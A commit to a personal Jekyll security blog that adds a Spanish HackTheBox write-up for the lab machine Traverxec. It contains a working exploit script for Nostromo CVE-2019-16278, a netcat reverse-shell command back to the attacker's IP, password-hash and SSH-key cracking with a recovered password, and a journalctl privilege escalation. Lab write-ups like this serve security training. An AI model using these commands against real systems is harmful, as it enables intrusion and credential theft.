

Before and after one commit to CSL-LABS/CSL-LABS.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1155 px high. Shown: the whole window at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
htb-traverxec

````diff
--- a/_posts/2020-11-23-htb-openadmin.md
+++ b/_posts/2020-11-23-htb-openadmin.md
@@ -14,7 +14,7 @@
 
 ### <span style="color:green">Maquina Objetivo</span>
 
-| OS          | Windows             |
+| OS          | linux             |
 | IP          | 10.10.10.171        |
 | Dificultad  | 4.4/10 / **Easy** |
 | URL         | [**OpenAdmin**](https://www.hackthebox.eu/home/machines/profile/222)    |
--- /dev/null
+++ b/_posts/2020-11-25-htb-traverxec.md
@@ -0,0 +1,158 @@
+---
+title: HTB-TRAVERXEC
+author: Christian Gutierrez
+date: 2020-11-25 14:10:00 -0500
+categories: [HackTheBox, Easy]
+tags: [HTB, Linux, journalctl, cracking]
+image: /assets/htb/05_traverxec/portada.PNG
+---
+## Decripción del entorno
+### <span style="color:green">Atacante</span>
+
+| OS          | Kali Linux          |
+| IP          | 10.10.14.67         |
+
+### <span style="color:green">Maquina Objetivo</span>
+
+| OS          | Linux             |
+| IP          | 10.10.10.165        |
+| Dificultad  | 4.7/10 / **Easy** |
+| URL         | [**TraverXec**](https://www.hackthebox.eu/home/machines/profile/217)    |
+
+## Enumeración
+Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema:
+```console
+$ nmap -sS -sV -sC -oA nmap_traverxec 10.10.10.165
+```
+
+![Escaneo con Nmap](/assets/htb/05_traverxec/01_nmap.png)
+_Resultado escaneo con nmap_
+
+Validando las cabeceras **HTTP** en el puerto **80** identificamos un servidor `Nostromo 1.9.6` el cual expone una aplicación web:
+
+![Puerto 80](/assets/htb/05_traverxec/02_puerto_80.png)
+_Aplicación en el puerto 80_
+
+Se realiza la busqueda pública de exploit's o CVE's que afecten al servicio `Nostromo`, hallando el **CVE-2019-16278**:
+- <https://github.com/jas502n/CVE-2019-16278>
+
+Este exploit en ejecución es bastante directo, pues consta de un **Directory Traversal and Remote Code Execution** el cual, a través de la URL accedemos a un binario como  `/bin/sh`, y también permite pasarle los parámetros a ejecutar mediante POST:
+
+```bash
+#!/usr/bin/env bash
+
+HOST="$1"
+PORT="$2"
+shift 2
+
+( \
+    echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
+    echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
+    echo "$@ 2>&1" \
+) | nc "$HOST" "$PORT" \
+  | sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
+```
+Como alternativa al exploit se puede ver la ejecución practica del exploit con BurpSuite:
+ - <https://www.youtube.com/watch?v=-preplELiy8>
+
+Con lo anterior, ejecutamos una Shell reversa usando **netcat**:
+- `nc 10.10.14.67 4646 -e /bin/sh`
+- `nc -nvlp 4646`
+
+![Shell reversa](/assets/htb/05_traverxec/04_shell_david.png)
+_Ejecución de una reverse shell_
+
+Una vez con la Shell, contamos con los privilegios del usuario `www-data` y se realiza la recolección de información para intentar escalar hacia el usuario `David`. Se identifica el archivo de configuración del sistema `nostromo`:
+
+```console
+$ cat /var/nostromo/conf/
+```
+
+Se identifican diferentes archivos interesantes:
+- `.htpasswd`
+- `nhttpd.conf`
+
+Del primer archivo se logra identificar un hash, así que procedemos a realizar un proceso de **password cracking**:
+
+```console
+$ hashcat –force -m 500 -a 0 hash.txt rockyou.txt
+```
+
+![Hashcat](/assets/htb/05_traverxec/05_hashcat_david.png)
+_Ejecución de Hashcat_
+
+- David: **Nowonly4me**
+
+A pesar obtener credenciales de acceso, no encontramos un sitio para activarlas o impersonar al usuario **David**, así que analizando el archivo `nhttpd.conf` y descubrimos que existen varios directorios como **“home dirs”**:
+- `/home`
+- `/public_www`
+
+Desde la pagina web, se puede ingresar al directorio `~/David/`:
+
+![Carpeta David](/assets/htb/05_traverxec/06_david_home.png)
+_Desde el servidor al directorio David_
+
+También se intenta con `/protected-file-area/`:
+
+![Directorio Privado](/assets/htb/05_traverxec/07_directorio_privado.png)
+_Directorio Privado_
+
+Esto nos permite acceder directamente al contenido:
+
+![Descarga de Archivos](/assets/htb/05_traverxec/08_descarga_archivos.png)
+_Descarga de archivos_
+
+
+Descargamos el archivo `id_rsa` y se observa que esta protegido por una contraseña, así que se procede a transformar y extraer el hash en formato **john**:
+```console
+$ ssh2john id_rsa
+```
+
+![id_rsa](/assets/htb/05_traverxec/09_id_rsa.png)
+_Archivo Id_RSA_
+
+Se realiza un ataque de password cracking con **John The Ripper**:
+
+![Cracking](/assets/htb/05_traverxec/10_password_cracking.png)
+_Cracking del id_rsa_
+
+Teniendo la clave, se realiza la conexión **SSH** al servidor como el usuario **David**:
+
+![Acceso David](/assets/htb/05_traverxec/11_acceso_david.png)
+_Acceso como usuario David_
+
+## Elevación de Privilegios
+
+Ahora, dentro de la carpeta del usuario **David** se identifica una carpeta `/bin/` que tiene el siguiente archivo bash:
+
+![Archivos binarios](/assets/htb/05_traverxec/12_priv_escalation.png)
+_Archivos binarios_
+
+Del contenido del archivo, identificamos la última línea como la importante, debido a que hace `sudo` de un servicio para ejecutar como **root** el comando `journalctl`:
+```console
+$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
+```
+
+En este punto de la escala de privilegios, consultamos **gtfobins**:
+- <https://gtfobins.github.io/gtfobins/journalctl/>
+
+Nos brinda información importante sobre cómo abusar del binario `jounalctl` para escalar privilegios en casos donde tenemos su ejecución privilegiada o mal configurada:
+
+![jounalctl](/assets/htb/05_traverxec/13_exploit_journalctl.png)
+_Explotación binario jounalctl_
+
+> NOTA:
+> Es importante decir, que en este punto toma tiempo entender plenamente la forma de ejecución del posible vector de escala de privilegios, debido a que la ejecución era muy rápida y no permitía ingresar los comandos apropiados.
+
+El comando `journalctl` hace uso del servicio `less` para mostrar en pantalla todo el contenido de las últimas líneas de los **logs** del servicio `nostromo.service`, sin embargo, el comando esta atado a mostrar solo **5 líneas de logs** (`-n 5`) por lo que NO nos da tiempo de ejecutar e ingresar la expresión `¡/bin/sh` para obtener la Shell.
+
+La forma de solucionar este problema es más que simple, recursiva y curiosa. Solo se debe **ajustar la el tamaño de nuestra terminal** para que no muestre completamente el contenido de las líneas, pues al faltarle contenido de forma horizontal, el servicio `less` (que es el que ejecuta de fondo) se ve obligado a activar el ingreso de datos para movernos a la información que no se puede mostrar, lo que nos da tiempo de ingresar el comando y ejecutar la Shell:
+
+![Privilegios](/assets/htb/05_traverxec/14_root_maquina.png)
+_Privilegios Root_
+
+Bytez ;)
+
+## Referencias
+- Analisis de binarios en linux para aprovechar configuraciones inseguras:
+  - <https://gtfobins.github.io/gtfobins/journalctl/>
````
Also changed, not shown: assets/htb/05_traverxec/01_nmap.png (added), assets/htb/05_traverxec/02_puerto_80.png (added), assets/htb/05_traverxec/03_exploit_nostromo.png (added), assets/htb/05_traverxec/04_shell_david.png (added), assets/htb/05_traverxec/05_hashcat_david.png (added), assets/htb/05_traverxec/06_david_home.png (added), assets/htb/05_traverxec/07_directorio_privado.png (added), assets/htb/05_traverxec/08_descarga_archivos.png (added), assets/htb/05_traverxec/09_id_rsa.png (added), assets/htb/05_traverxec/10_password_cracking.png (added), assets/htb/05_traverxec/11_acceso_david.png (added), assets/htb/05_traverxec/12_priv_escalation.png (added), assets/htb/05_traverxec/13_exploit_journalctl.png (added), assets/htb/05_traverxec/14_root_maquina.png (added), 1 more files.
